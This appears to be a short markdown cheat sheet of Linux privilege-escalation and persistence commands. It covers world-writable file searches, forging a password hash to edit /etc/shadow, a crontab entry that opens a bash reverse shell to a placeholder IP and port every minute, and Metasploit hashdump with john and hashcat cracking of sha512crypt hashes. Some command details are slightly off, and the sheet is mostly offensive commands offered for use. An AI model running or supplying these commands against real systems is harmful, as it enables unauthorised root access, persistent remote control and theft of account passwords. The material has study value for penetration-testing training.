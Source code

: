 # Weak Permissions

```
find / -not type l -perm -o+w
openssl passwd -1 -salt abc password
vi /etc/shadow
su -
```

# Sudo Privs

```
sudo -l -> gtfo bins
```

# Crontab persistence

```shell
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'" > cron
crontab -i cron
crontab -l
```

# Types of hashes
- $1 - MD5
- $2 - Blowfish
- $5 - SHA-256
- $6 - SHA-512

```msfcosnole
use post/linux/gather/hashdump
john --format=sha512crypt [FILE] -w=[WORDLIST]
hashcat --help | grep sha512
hashcat -a3 -m 1800 [HASH] [WORDLIST]
```